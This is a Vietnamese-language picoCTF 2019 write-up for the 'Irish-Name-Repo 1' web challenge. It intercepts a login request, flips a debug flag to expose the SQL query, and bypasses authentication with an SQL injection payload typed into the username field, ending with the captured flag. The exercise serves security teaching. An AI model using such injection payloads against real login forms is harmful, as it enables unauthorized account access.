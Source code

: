 > Một series liên quan đến việc khai thác lỗ hổng trong phần login, từ đó tăng quyền người dùng hoặc đang nhập vào không được phép.
# Irish-Name-Repo 1
##### Tags: `picoCTF 2019` `Web Exploitation`
### DESCRIPTION
There is a website running at [(link)](https://jupiter.challenges.picoctf.org/problem/33850/). Do you think you can log us in? Try to see if you can login!
##### Sử dụng BurpSuite để Intercep Request, thử login:
```
POST /problem/33850/login.php HTTP/1.1
...
...
username=hoang&password=1&debug=0
```
##### Như thấy, có phần `debug`bằng 0, thay bằng 1 sau đó forward Request đi:
```
username: hoang
password: 1
SQL query: SELECT * FROM users WHERE name='hoang' AND password='1'

Login failed.
```
##### Đây là một lỗ hổng liên quan đến `SQL Injection`, trong trường hợp này trường name và password ở cạnh liền nhau và không được xử lý input thích hợp, nên ta sẽ khai thác như sau:
```
Username:
hoang' OR '1==1' --
Password:
djalfdj
```
##### Khi đẩy trường thông tin Username như trên vào, SQL sẽ truy vấn như sau:
```sql
SELECT * FROM users WHERE name='hoang' OR '1==1'--'AND password='1'
```
> bỏ qua mật khẩu, thay vào đó chỉ kiểm tra tên người dùng HOẶC 1 = 1, vì vế thứ 2 là luôn đúng nên ta sẽ qua được khâu mật khẩu
```
Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```
##### => Lấy flag thành công!
